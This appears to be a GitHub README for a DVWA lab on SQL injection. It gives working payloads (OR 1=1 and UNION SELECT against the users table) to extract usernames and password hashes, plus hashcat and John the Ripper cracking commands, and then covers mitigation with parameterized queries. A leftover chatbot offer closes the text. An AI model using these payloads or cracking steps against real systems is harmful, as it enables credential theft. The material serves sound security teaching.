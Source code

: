 # DVWA SQL Injection – Low Difficulty

## Overview
This project demonstrates a **SQL Injection vulnerability** in a web application using DVWA (Damn Vulnerable Web Application).  
The purpose of this lab is to understand how user input can be exploited in **unsanitized SQL queries** and learn proper mitigation techniques.

**Security Level:** Low  
**Target:** `user_id` GET parameter  

---

## Objective
- Exploit a SQL Injection vulnerability to retrieve **usernames and passwords** from the database.
- Understand the impact of unsanitized user input.
- Learn how to **prevent SQL Injection** using proper techniques.

---

## Vulnerability Description
The web application takes the `user_id` from the URL and directly inserts it into a SQL query:

```sql
SELECT first_name, last_name FROM users WHERE user_id = <user_input>;
````

**Issues:**

* User input is **not validated or sanitized**
* Query can be manipulated using SQL statements
* Allows attackers to access all users’ data

---

## Exploitation Steps

### 1. Test Vulnerability

Enter a single quote `'` as `user_id`:

```
?id='
```

* If an **SQL syntax error** appears, the input is vulnerable.

### 2. Bypass with Always-True Condition

Use input:

```
?id=1 OR 1=1
```

* Returns **all users** because `1=1` is always true.

### 3. Extract Usernames and Passwords

Use UNION query:

```
?id=1 UNION SELECT user, password FROM users
```

* Combines results from the `users` table.
* Displays all usernames and hashed passwords.

### 4. Optional: Identify Number of Columns

```sql
ORDER BY 1; -- works
ORDER BY 2; -- works
ORDER BY 3; -- error
```

* Confirms **2 columns** exist.

---

## Example Payloads

| Purpose                     | Payload                                    |
| --------------------------- | ------------------------------------------ |
| Always true condition       | `1 OR 1=1`                                 |
| Extract usernames/passwords | `1 UNION SELECT user, password FROM users` |
| Test number of columns      | `1 ORDER BY 1`                             |

---

## Cracking Password Hashes

If passwords are **hashed** (MD5 in DVWA), you can use:

### Online

* CrackStation: [https://crackstation.net](https://crackstation.net)

### Local Tools

* **Hashcat**

```bash
hashcat -m 0 hashes.txt wordlist.txt
```

* **John the Ripper**

```bash
john --format=raw-md5 --wordlist=wordlist.txt hashes.txt
```

---

## Mitigation

**Prevent SQL Injection** using:

1. **Parameterized Queries / Prepared Statements**

```js
const stmt = "SELECT first_name, last_name FROM users WHERE user_id = ?";
db.query(stmt, [userInput]);
```

2. **Input Validation & Sanitization**

* Ensure input matches expected format (numeric ID, email, etc.)
* Use libraries like `validator.js` in Node.js

---

## References

* DVWA Official: [http://www.dvwa.co.uk/](http://www.dvwa.co.uk/)
* PortSwigger SQL Injection Cheat Sheet: [https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)
* OWASP SQL Injection Guide: [https://owasp.org/www-community/attacks/SQL\_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

---

**Author:** Ammad Aziz
**Date:** 2025

```

I can also make a **full project folder with `index.php`, `database.sql`, and this README.md` ready for testing DVWA low SQLi lab** if you want.  

Do you want me to do that next?
```
